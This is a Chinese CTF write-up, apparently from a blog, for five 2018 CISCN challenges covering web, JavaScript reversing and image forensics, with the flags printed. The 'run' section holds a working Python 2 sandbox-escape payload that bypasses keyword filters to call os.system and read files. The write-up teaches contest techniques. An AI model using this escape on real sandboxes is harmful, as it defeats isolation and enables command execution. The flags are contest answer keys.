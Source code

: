 ```yaml
---
title: 2018全国大学生信息安全竞赛
date: 2018-05-05 00:00:00
categories:
- CTF/Web
tags: python沙箱逃逸 uuencode
--- 
```


## EasyWeb

- post给login.php admin:admin 直接看到flag

```
ciscn{2a36b5f78a1d6a107212d82ee133c421}
```

## 验证码

- 随便点几个就出来flag了
- 复现的时候彻底改成了签到题目，输入一个验证码即可

```
ciscn{qqmxxxb1sxdbsm1qdedszfh7ih2h7zxj}
```

## run

直接明了的python沙箱逃逸

```python
>>>print __builtins__
{'SyntaxError': <type 'exceptions.SyntaxError'>, 'NameError': <type 'exceptions.NameError'>, 'Exception': <type 'exceptions.Exception'>, 'raw_input': <built-in function raw_input>, '__import__': <function importer at 0x7f4d1f0b1a28>, 'ValueError': <type 'exceptions.ValueError'>}

```

- 尝试了一堆import，全被ban掉了
- 发现`__import__`可用，但是拼上的字符串还是会被ban掉
- `exec，execute`被ban掉
- `func_globals`因为ls被禁止掉
- `__builtins__`中getattr也被删掉了
— 尝试用类中的`__getattribute__`方法替代`getattr`
- 然后拼接字符串或者反转拼出func_globals，绕过ls，即可getshell

```python
>>>().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("slabolg_cnuf"[::-1])['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('cd /home/ctf;'+'sl'[::-1])

5c72a1d444cf3121a5d25f2db4147ebb
bin
cpython.py
cpython.pyc
sandbox.p

>>>print ().__class__.__bases__[0].__subclasses__()[40]('/home/ctf/5c72a1d444cf3121a5d25f2db4147ebb').read()

ciscn{df3ad5676c26b5f86278ea0634847e0f}

```

## flag in your hand

发现会断到ck()函数下：

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [100, 101, 102, 48, 118, 104, 102, 120, 117, 108, 119, 124];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
}
```

```python
a=[100, 101, 102, 48, 118, 104, 102, 120, 117, 108, 119, 124]
b=""
for i in a:
	b+=chr(i-3)
print b
```

输入token: abc-securit

得到flag：IBIRKdUmzyBfidDyMZrWlQ

## picture

题目给的是个png，010editor打开发现应该是一个jpg，binwalk发现一个zlib

```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
38884         0x97E4          Zlib compressed data, default compression
```

```python
from zlib import *
from base64 import *
import binascii

data = open('1.zlib','rb').read()
data = decompress(data)
data = b64decode(data)
open('1.zip','wb').write(data)
```

- 解码完发现是个base64继续解码，发现大概是个zip，开头个PK被改为了KP，改回来就行了
- 文件存在密码，里面有一个code文件
- 二进制编辑器看到的效果前面是一个压缩包后面有个pyton什么的，如下：

```python
>>> ¨}¨}¨}

Traceback (most recent call last):
  File "<pyshell#0>", line 1, in <module>
    ¨}¨}¨}
ZeroDivisionError: ¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨}¨} <- password ;)
>>> 

```

研究了半天没弄懂，后来用windows下好压打开才知道后面那一堆是备注，并且¨}被展示为一个黑块

```python
>>> ▉▉▉

Traceback (most recent call last):
  File "<pyshell#0>", line 1, in <module>
    ▉▉▉
ZeroDivisionError: ▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉ <- password ;)
>>> 

```

这才看懂，除数为零，自己跑一下

```python
>>> 1/0
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ZeroDivisionError: integer division or modulo by zero
```


```
integer division or modulo by zero
```

这个就是密码，黑块给了30个，好像个数有点不对...解开压缩包是如下密文

```
begin 644 key.txt
G0TE30TY[-T$X0T5$1D$V-#1".#<T,D8Y,3)!0CDQ-T4T-4%#,#9]

end
```

网上查到：

```
uuencode的开头是:
begin <模式> <文件名>
<数据>
end
```

解码网站：[http://www.qqxiuzi.cn/bianma/uuencode.php](http://www.qqxiuzi.cn/bianma/uuencode.php)

```
CISCN{7A8CEDFA644B8742F912AB917E45AC06}
```

